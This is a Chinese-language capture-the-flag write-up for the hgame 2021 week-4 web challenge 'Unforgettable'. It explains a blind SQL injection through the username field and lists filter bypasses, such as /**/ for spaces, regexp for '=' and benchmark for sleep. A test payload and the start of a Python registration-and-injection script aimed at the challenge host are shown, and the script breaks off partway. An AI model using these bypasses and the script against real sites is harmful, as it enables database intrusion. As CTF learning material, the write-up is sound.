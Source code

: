 ```yaml
---
title: 'hgame-week4-writeup'
date: 2021-02-20T21:35:00+08:00
draft: false
---
```


这周好困好困，每天醒来只能保持 3h 的精力，哎。题目卡住以后倒是把寒假计划中的其他事情摸完了。



# Web

## Unforgettable

这道题是截止前几个小时静下心来做的，本来都打算放掉这题去把我暑假计划的其他东西搞定

之前测试的时候发现我注册的账号很快就会失效（被删除）

初步怀疑是和 sql 注入有关，而且注入点应该和账号的信息有关



回过神来已经是 ddl 前几个小时了，开始尝试找注入点

先测试了用户名，发现有一些过滤：

> 空格、and、=、sleep、<、>、like、||、union

等号用 regexp 代替

空格用/**/代替

sleep 用 benchmark 代替

然后试了这个用户名：

```
1'/**/#
```

在首页中是这样

![image-20210227160621974](https://i.loli.net/2021/02/27/DRW5FbV1gerKpmH.png)

但是进入/user后是这样：

![image-20210227160706599](https://i.loli.net/2021/02/27/ngEKJbG5YLSkmsU.png)

说明 sql 语句在 /user 页面执行了

然后就是盲注

有好些细节还不太懂，问了liki，然后写了程序

```python
import httpx
from bs4 import BeautifulSoup
import time

session = httpx.Client(proxies={'all://':None})

def tryPayload(payload):
    username = payload
    username = username.replace(' ', '/**/')
    print(username)
    r = session.get('https://unforgettable.liki.link/register')
    csrf_token = BeautifulSoup(r,'lxml').find('input',id='csrf_token')['value']
    email = str(int(time.time())) + '@qq.com'
    password = str(int(time.time()))
    registerData = {'csrf_token':csrf_token,
```